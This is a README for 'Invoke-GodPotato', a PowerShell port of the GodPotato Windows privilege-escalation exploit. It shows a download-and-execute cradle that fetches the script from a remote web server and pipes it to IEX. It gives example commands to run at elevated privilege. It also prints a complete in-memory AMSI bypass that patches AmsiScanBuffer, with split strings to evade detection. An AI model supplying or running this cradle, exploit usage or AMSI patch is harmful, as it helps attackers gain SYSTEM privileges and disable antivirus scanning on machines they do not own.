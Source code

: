 # Invoke-GodPotato
## Foreword
Highly inspirated by 
- https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1
- https://github.com/BeichenDream/GodPotato/tree/main
 
<br />

## Basic Usage
First of all, you have to load the powershell script into memory. You can do that however you want. Here are two examples:
```powershell
# Load into memory remotely from webserver
(New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-GodPotato.ps1') | IEX

# Load into memory from local file
. .\Invoke-GodPotato.ps1
```
Now you can execute commands using cmd.exe or powershell.
```powershell
Invoke-GodPotato "cmd /c whoami"
Invoke-GodPotato "powershell -enc dwBoAG8AYQBtAGkA"
```

<br />

## Troubleshooting
Dont rage if you get an error like:
```powershell
Invoke-GodPotato : The term 'Invoke-GodPotato' is not recognized as the name of a cmdlet, function, script file, or
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try
again.
At line:1 char:1
+ Invoke-GodPotato
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Invoke-GodPotato:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

<br />

This is simply an AMSI-Problem and you have to bypass it **correctly**. Read more at https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/. Basically, you just have to patch 
your current powershell process with:
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
